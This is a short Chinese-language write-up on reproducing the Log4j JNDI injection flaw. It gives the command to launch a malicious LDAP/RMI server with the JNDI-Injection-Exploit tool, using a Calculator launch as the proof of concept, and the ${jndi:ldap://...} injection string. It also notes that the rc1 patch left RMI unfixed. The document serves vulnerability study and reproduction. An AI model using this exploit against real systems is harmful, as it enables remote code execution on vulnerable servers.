 ## 复现

- 启动恶意LDAP / RMI 服务

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -A "127.0.0.1"
```

工具地址：https://github.com/welk1n/JNDI-Injection-Exploit

![](1.png)

- 连接启动的恶意server

```
${jndi:ldap://127.0.0.1:1389/xxxxxx}
```

![](2.png)

P.S. Apache官方的 2.15.0-rc1只修复了ldap利用，没有修复rmi利用，然后又紧急发布了第2个补丁2.15.0-rc2

## 各大厂商都中招

![](3.jpg)

![](4.jpg)

![](5.png)